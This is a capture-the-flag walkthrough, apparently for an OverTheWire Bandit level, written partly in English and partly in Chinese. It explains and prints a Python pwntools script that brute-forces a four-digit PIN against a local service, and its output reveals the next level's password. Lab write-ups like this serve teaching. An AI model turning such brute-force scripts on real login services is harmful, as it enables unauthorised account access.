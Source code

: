 - The while loop simply prints the pin it will attempt.
- `s.sendall()` sends the `password` and `pin` through the socket. Note the `\n` as the last argument to the function, this is required because it tells the service that you’re done entering a line, without it the script will hang.
- Finally we capture the data returned from the server, print it and increase the pin by one. Then it starts all over.

- more feature rich: evaluate a condition to determine if the return from the service had “Wrong!” in it:
  - if so, continue the script.
  - If not, stop and say ‘Pin Found!’.
  - Luckily for me that was not needed because the service resets the connection when the correct pin is presented and thus the script stops.

Note: It’s been pointed out that my while loop is an infinity loop. I know, I could have just used a for loop and that’s a better method of doing it. I was planning on putting in error handling + conditionals but it wasn’t necessary.


3.
根据python的pwntools写个脚本跑密码就好了
- 在其他目录下没有写权限，这个脚本只能在/tmp目录下创建。
- 如果用的是我下面这种receive line方法，有些破坏输出的结果我要多接收一行过滤掉，

```py
$ nano /tmp/conn.py

#！ /usr/bin/python
from pwn import *

conn = remote('localhost', '30002')
badline = conn.recvline()
for i in range(1000):
    tmp = str(i).zfill(4)
    print '[+] Trying pincode: ' + str(tmp)
    conn.sendline('UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ ' + tmp)
    response = conn.recvline()
    print response

    if "Wrong" not in response:
       print "Got Pincode: " + str(tmp)
       response = conn.recvline()
       print response
       exit(0)

# 终端运行
python /tmp/conn.py
...
[+] Trying pincode: 0377
Wrong! Please enter the correct pincode. Try again.
[+] Trying pincode: 0378
Correct!
Got Pincode: 0378
The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG

```
